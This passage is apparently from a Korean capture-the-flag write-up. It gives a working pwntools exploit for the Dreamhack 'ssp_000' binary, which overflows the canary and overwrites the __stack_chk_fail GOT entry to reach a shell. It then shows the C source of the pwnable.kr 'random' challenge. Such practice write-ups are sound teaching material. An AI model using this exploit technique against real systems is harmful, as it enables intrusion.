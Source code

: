 
작성한 코드는 다음과 같다. 

**ex.py**

```py
from pwn import *

#p = process("./ssp_000")
p = remote("host1.dreamhack.games",10835)
e = ELF("./ssp_000")

got_addr = e.got['__stack_chk_fail']
get_shell_addr = 4196586 

p.sendline(b'A'*73) #canary word를 침범
p.recvuntil("Addr : ")

# Addr = got of __stack_chk_fail
p.sendline(str(got_addr).encode()) #stack_chk_fail의 got

p.recvuntil("Value : ")
p.sendline(str(get_shell_addr).encode())  # get_shell()의 주소

p.interactive()
```


![image](https://user-images.githubusercontent.com/33647663/169551508-2b3ba2c4-c194-4fc1-b01e-3f17f4b14a45.png)

# 시스템 - 2

**[random](https://pwnable.kr/play.php)**


```c
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```

